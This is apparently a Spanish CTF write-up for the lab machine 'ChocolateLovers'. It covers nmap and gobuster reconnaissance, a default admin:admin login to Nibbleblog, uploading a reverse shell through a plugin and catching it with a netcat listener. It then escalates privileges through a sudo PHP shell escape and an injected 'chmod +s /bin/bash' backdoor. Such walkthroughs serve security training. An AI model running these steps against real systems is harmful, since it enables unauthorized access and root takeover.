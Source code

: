 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  26/04/2024
---
```


# ChocolateLovers

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos un directorio comentado llamado `/nibbleblog`.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Nos intentamos loguear con credenciales por defecto **admin:admin** y estamos dentro.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Entramos en plugins en instalar My image y subimos una [Reverse Shell](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Investigamos donde se ha subido el archivo y nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```bash
sudo -u chocolate php -r "system('/bin/bash');"
```

Ahora ya somos el usuario chocolate pero no somos root. Si nos damos cuenta los procesos que están corriendo hay uno que es muy raro.

```bash
ps -faux
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

El archivo no contiene información útil, pero como el usuario `chocolate` es propietario, podemos modificarlo para incluir código **PHP** malicioso que se ejecute como **root**, creando una puerta trasera para escalar privilegios.

```bash
echo "<?php system('chmod +s /bin/bash'); ?>" > script.php
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Ya tenemos permisos SUID y ahora los explotamos. Ya somos **root**.

```bash
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

